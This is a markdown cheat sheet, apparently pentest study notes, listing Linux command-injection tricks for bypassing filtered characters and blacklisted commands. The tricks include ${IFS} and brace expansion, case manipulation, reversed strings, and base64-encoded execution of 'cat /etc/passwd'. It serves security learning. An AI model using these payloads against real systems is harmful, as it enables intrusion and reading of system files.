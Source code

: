 ## Filtered Character Bypass

| Code | Description |
| ----- | ----- |
| `printenv` | Can be used to view all environment variables |
| **Spaces** |
| `%09` | Using tabs instead of spaces |
| `${IFS}` | Will be replaced with a space and a tab. Cannot be used in sub-shells (i.e. `$()`) |
| `{ls,-la}` | Commas will be replaced with spaces |
| **Other Characters** |
| `${PATH:0:1}` | Will be replaced with `/` |
| `${LS_COLORS:10:1}` | Will be replaced with `;` |
| `$(tr '!-}' '"-~'<<<[)` | Shift character by one (`[` -> `\`) |

---
## Blacklisted Command Bypass

| Code | Description |
| ----- | ----- |
| **Character Insertion** |
| `'` or `"` | Total must be even |
| `$@` or `\` | Linux only |
| **Case Manipulation** |
| `$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")` | Execute command regardless of cases |
| `$(a="WhOaMi";printf %s "${a,,}")` | Another variation of the technique |
| **Reversed Commands** |
| `echo 'whoami' \| rev` | Reverse a string |
| `$(rev<<<'imaohw')` | Execute reversed command |
| **Encoded Commands** |
| `echo -n 'cat /etc/passwd \| grep 33' \| base64` | Encode a string with base64 |
| `bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)` | Execute b64 encoded string |

---
# Windows
